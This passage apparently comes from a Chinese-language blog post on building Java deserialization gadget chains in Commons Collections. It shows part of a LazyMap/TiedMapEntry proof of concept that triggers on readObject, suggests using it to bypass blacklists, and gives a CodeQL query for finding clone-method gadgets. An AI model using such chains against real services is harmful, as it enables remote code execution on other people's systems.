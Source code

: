 ```text
        Map innerMap1 = new HashMap();
        LazyMap outerMap1 = (LazyMap)LazyMap.decorate(innerMap1, constantTransformer);

        TiedMapEntry tme1 = new TiedMapEntry(outerMap1, "keykey");

        Map expMap1 = new HashMap();
        expMap1.put(tme1, "valuevalue");
        setFieldValue(outerMap1,"factory",factoryTransformer);

        outerMap1.remove("keykey");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(expMap);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```

![img](https://pic3.zhimg.com/80/v2-9408b1868fa058f0100f80ae41c56e66_720w.webp)

能够成功执行，好吧，感觉挺鸡肋的，但是应该可以结合其他依赖，作为其他反序列入口来打，或者作为一个黑名单绕过

### PrototypeCloneFactory

之后又是一个`PrototypeCloneFactory#create`方法中

![img](https://gitee.com/shine05/myblog-gallery/raw/master/img/v2-611eaaf8d7999cfe8beb18e146d60cd9_720w.webp)

似乎可以任意方法的调用，但是我们注意到

![img](https://pic4.zhimg.com/80/v2-7258d67e7aca11349cf534a14649f37f_720w.webp)

其被transient修饰，且不像`InstantiateFactory`中存在赋值操作，但是我们同样可以注意到其在调用`findCloneMethod`方法中的时候，取出了对应类的clone方法，如果clone方法有可以利用的是不是就可以形成利用链

![img](https://pic1.zhimg.com/80/v2-67427b6b7adf3c684227b3402be0bc48_720w.webp)

我们查找一下clone方法存在的类

```text
import java

class CloneCallable extends Callable{
    CloneCallable() {
        this.getName().matches("clone")
    }
}
from CloneCallable c
select c,c.getBody(), c.getDeclaringType()
```
